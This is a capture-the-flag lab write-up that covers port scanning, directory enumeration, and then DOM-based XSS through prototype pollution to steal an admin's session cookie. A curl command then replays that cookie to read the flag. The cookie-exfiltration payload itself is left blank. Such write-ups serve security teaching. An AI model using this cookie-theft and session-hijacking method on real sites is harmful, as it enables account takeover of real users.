







## [01] Port Scan and Service Discovery

```term
$ sudo nmap -p- -sC -sV -vv --max-retries=0 -oN scans/nmap_all_tcp.txt 10.1.139.91

PORT     STATE SERVICE REASON         VERSION
!!22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f2:c9:a1:0f:b0:95:a8:34:dc:da:7f:91:ec:98:2a:99 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPoCs/iBzAsNhJkZLLr+GOF6i1938uoFXzieP/pZgObA0cfTJfBzHDOIsdJek5fvibD9WF7u3WCSLQB76WudFx4=
|   256 a4:43:a5:e6:6d:3b:25:c8:e4:e3:8b:9f:b8:be:0c:4b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINH8VOVu7SLmUJMY6vMd39Jd6jVJDXe/iYO+YLVPrKem
!!3000/tcp open  http    syn-ack ttl 62 Node.js Express framework
|_http-title: Hacksmarter | Login
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## [02] Stealing the Admin Cookie via Prototype Pollution

Navigating to the main site we get a login prompt. I like to have some sort of enumeration running in the background while I work, so let's fire up feroxbuster.

```term
$ feroxbuster -u http://10.1.139.91:3000

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.1.139.91:3000/
 🚩  In-Scope Url          │ 10.1.139.91
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/feroxbuster/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       10l       15w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
!!200      GET       12l       63w      838c http://10.1.139.91:3000/
403      GET        1l        2w       22c http://10.1.139.91:3000/incident-response
!!200      GET      125l      482w     6035c http://10.1.139.91:3000/dashboard
!!200      GET        1l        5w       72c http://10.1.139.91:3000/api/mail/
200      GET      125l      482w     6035c http://10.1.139.91:3000/Dashboard
[####################] - 25s    60007/60007   0s      found:5       errors:0
[####################] - 24s    30000/30000   1258/s  http://10.1.139.91:3000/
[####################] - 24s    30000/30000   1266/s  http://10.1.139.91:3000/api/mail/
```

We get a few 200 responses. Navigating to the `/dashboard` endpoint seemingly bypasses the authentication layer, and we are greeted with a dashboard.


Under the `Webmail` tab we get a messenger app. Our message will be sent to the admin, and they ask for links to investigate. I can smell the cookies baking in the air. Let's send a benign message and see if we get a call back.



And we do. We now know the admin is clicking on links, and we have an endpoint the admin can most likely access. I tried a few different payloads to get the admin to send the cookie back, but they didn't seem to work. Looking at the room name and other attack scenarios, the next step it to try `Prototype Pollution`. The built in Chromium browser in Burp Suite has `DOM Invader` built in. We simply need to tell it to scan for prototype pollution.



Now we can hit update, reload the page, and then open `Dev Tools -> DOM Invader` and see we have and option to `Scan for Gadgets`. After clicking on scan, Invader will attempt to find an exploitable path. Aftet the scan is finished, open `Dev Tools -> DOM Invader` again and we see that it has found and exploitable gadget. Clicking on `Exploit` will send the HTTP request, but we can see it fails. Taking the the request to `CyberChef` and decoding it, we can see it looks like the quotes aren't matching. So we can update the payload slightly as seen below, making sure to url encode it as well.

 

Now we need to plug it into the url and send it, and we get an alert!



Now we need to change the alert() function to a fetch() function and have the admin send their cookie back to us. The payload we need to send is below:

```js

```

Now update the url and see if we get another call back.



It works! Now send the link to the admin and wait.



Now that we have the cookies, we can curl the `/incident-response` endpoint.
> Note: You can just as easily add new cookie values in dev tools.

```term
$ curl http://10.1.139.91:3000/incident-response -b 'session=HS_ADMIN_7721_SECURE_AUTH_TOKEN; user=admin'

!!<h1>Flag: HACKSMARTER{xxxxxxxx}</h1> 
``` 
